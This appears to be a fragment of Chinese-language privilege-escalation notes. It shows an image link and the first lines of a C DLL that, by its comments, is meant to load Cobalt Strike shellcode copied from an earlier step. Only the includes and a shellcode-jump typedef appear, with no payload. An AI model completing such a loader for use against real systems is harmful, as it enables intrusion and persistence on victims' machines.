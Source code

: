 ![image-20241016210632451](操作系统提权/image-20241016210632451.png)	

```c
//然后将下面代码放到devc++进行编译


/* Replace "dll.h" with the name of your header */
#include "dll.h"
#include <windows.h>
#include <stdlib.h>
HANDLE hThread = NULL;
typedef void(__stdcall* JMP_SHELLCODE)();
//其中shellcode就是我们刚刚复制粘贴的cs的shellcode
```